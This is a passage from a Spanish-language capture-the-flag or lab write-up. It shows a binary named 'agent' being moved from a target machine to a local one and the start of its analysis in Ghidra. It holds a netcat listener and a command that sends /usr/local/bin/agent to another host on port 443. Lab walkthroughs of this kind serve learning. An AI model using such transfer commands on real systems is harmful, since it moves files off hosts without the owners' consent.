 ```bash
******************************************************************
JDK 21+ (64-bit) could not be found and must be manually chosen!
******************************************************************
Enter path to JDK home directory (ENTER for dialog): /opt/jdk/jdk-21.0.1+12  # añadimos según corresponda
```

Explicación: Abrimos Ghidra para analizar el binario encontrado

Acción:

```bash
nc -lvnp 443 > agent
nc 192.168.1.66 443 < /usr/local/bin/agent
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.67] 47758
❯ ls
agent
```

Explicación: nos transferimos el binario en local para poder analizarlo con [Ghidra](../../Herramientas/Ghidra)

---

`./ghidraRun`

---

## Análisis del binario con Ghidra

Después de transferir el binario `agent` a nuestra máquina local, procedemos a analizarlo con la herramienta de ingeniería inversa Ghidra.

Acción: abrimos Ghidra y seguimos los siguientes pasos:

![Captura](./Imágenes/GH_1.png)

1. **Crear nuevo proyecto**
    
    - En el menú superior seleccionamos:  
        `File > New Project...`

    - Elegimos el tipo de proyecto como **Non-Shared Project**  

![Captura](./Imágenes/GH_2.png)

2. **Seleccionamos la ruta donde queremos guardar el proyecto y lo nombramos**, por ejemplo: `BinaryAnalisis`.

![Captura](./Imágenes/GH_3.png)
